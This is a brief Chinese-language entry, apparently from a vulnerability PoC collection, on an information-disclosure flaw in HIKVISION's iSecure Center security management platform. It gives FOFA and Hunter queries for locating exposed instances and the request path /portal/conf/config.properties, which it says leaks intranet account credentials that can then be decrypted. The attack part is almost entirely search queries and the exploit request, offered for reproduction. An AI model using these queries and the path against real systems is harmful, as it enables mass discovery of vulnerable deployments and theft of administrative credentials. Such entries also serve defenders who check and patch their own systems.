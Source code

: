 
## 海康威视综合安防管理平台信息泄露

HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备，海康威视综合安防管理平台信息存在信息泄露（内网集权账户密码）漏洞，可以通过解密软件，解密用户名密码。

## fofa
```
app="HIKVISION-综合安防管理平台"
```

## hunter
```
web.title="综合安防管理平台"
```

## poc
```
/portal/conf/config.properties

```
## 漏洞复现
![](../../assets/20231021220812.png)
